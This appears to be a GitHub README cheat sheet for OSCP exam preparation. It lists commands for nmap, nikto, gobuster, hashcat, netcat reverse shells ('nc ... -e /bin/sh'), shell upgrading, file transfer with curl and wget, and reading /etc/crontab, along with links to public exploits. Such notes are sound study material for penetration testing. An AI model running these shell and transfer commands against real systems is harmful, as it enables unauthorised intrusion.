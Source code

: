 # OSCP
Offensive Security Certified Professional is an ethical hacking certification offered by Offensive Security that teaches penetration testing methodologies and the use of the tools included with the Kali Linux distribution.
# Enumeration
## NMAP
nmap -sV -sS 127.0.0.1 (all ports)
## Nikto
nikto -h 127.0.0.1
## SMB
## Gobuster
gobuster dir -e -w /usr/share/wordlists/dirb/common.txt -t 5 -u http://target.url -q
## Linpeas
## Winpeas
# Payloads
## Msfvenom
# Brute Force
# Cracking
## Hashcat (https://hashcat.net/wiki/doku.php?id=example_hashes)
hashcat -a 0 -m 1600 -w 2 --show hash.txt /usr/share/wordlists/rockyou.txt  
# Exploits
## Apache Apisix 2.8
(CVE-2022-24112)  
{"error_msg":"404 Route Not Found"}  
https://github.com/twseptian/cve-2022-24112
## Ladon Framework
(NO CVE)  
WSGIServer 0.1 (Python 2.7.16)  
https://www.exploit-db.com/exploits/43113  
https://www.youtube.com/watch?v=3XgGjEG0lLw  
# Shell
## Netcat (listener)
nc -lvnp 8080
## Netcat (sender)
nc 127.0.0.1 8080 -e /bin/sh
# Shell Upgrade
## Python
python -c 'import pty; pty.spawn("/bin/bash")'
# File Hosting
## Python
python3 -m http.server 8080
# File Transfer
## Curl (upload)
curl -T file.php -u 'username:password' http://target.url
## Wget (download)
wget 127.0.0.1/file
# File Permissions
## Chmod (make executable)
chmod +x target.file
# Privilege Escalation
## Crontab
cat /etc/crontab  
Results:  
SHELL=/bin/sh  
PATH=/dev/shm:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin


